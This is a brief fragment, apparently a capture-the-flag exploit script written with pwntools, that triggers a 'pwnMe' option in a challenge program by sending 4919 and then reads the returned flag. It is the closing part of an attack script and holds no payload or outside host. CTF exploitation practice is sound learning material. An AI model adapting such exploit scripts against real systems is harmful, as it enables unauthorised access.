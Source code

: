 ```python
make_tiger(malcontent, 3)

# vp.interactive()

log.info("triggering pwnMe")

# choose pwnMe
vp.sendline(str(4919))

log.info("flag is probably:\n" + vp.readline())
vp.clean_and_log()
# vp.interactive()

vp.close()
```
